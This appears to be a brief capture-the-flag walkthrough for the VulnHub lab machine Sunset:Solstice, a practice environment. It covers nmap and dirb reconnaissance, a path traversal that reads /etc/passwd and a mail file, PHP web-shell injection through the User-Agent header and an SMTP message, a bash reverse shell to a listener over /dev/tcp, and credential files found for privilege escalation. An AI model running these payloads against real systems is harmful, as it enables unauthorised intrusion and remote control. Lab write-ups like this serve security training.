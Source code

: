 
# Sunset:Solstice Walkthrough

**VulnHub Link:** [Sunset:Solstice](https://www.vulnhub.com/entry/sunset-solstice,499/)
**Difficulty:** Easy
**Release Date:** 26 Jun 2020


## 1.Reconnaissance
```bash
nmap -A -O -T4 -P -sV 192.168.100.175
```
## 2.Web Enumeration
```bash
dirb http://192.168.100.175
```

ftp 2121 service anonymous access is allowed but not beneficial.

in 192.168.100.90:8593 , .php?book = /../../../../../../etc/passwd

miguel user found

../../../../../var/mail/www-data


burpsuite executing and user-agent--> <?php system($_GET['cmd']); ?>

in repeater --> reading from mails 

telnet 192.168.100.90 --> 
1) helo ok
2)mail from: root@solstice
3)rcpt to: www-data@solstice
4)data
5)subject: <?php system($_GET["cmd"]); ?>
6)<message wanted>
7) .


/var/mail/www-data&cmd=id and found id response

encoding --> bash -c '/bin/bash -i >& /dev/tcp/192.168.100.14/4444 0>&1' and send in repeater and got connection via netcat

## 3.Privilege Escalation

in /var/tmp/webserver_2/project/config.php and config.sample.php files contains credentials

root flag captured..!
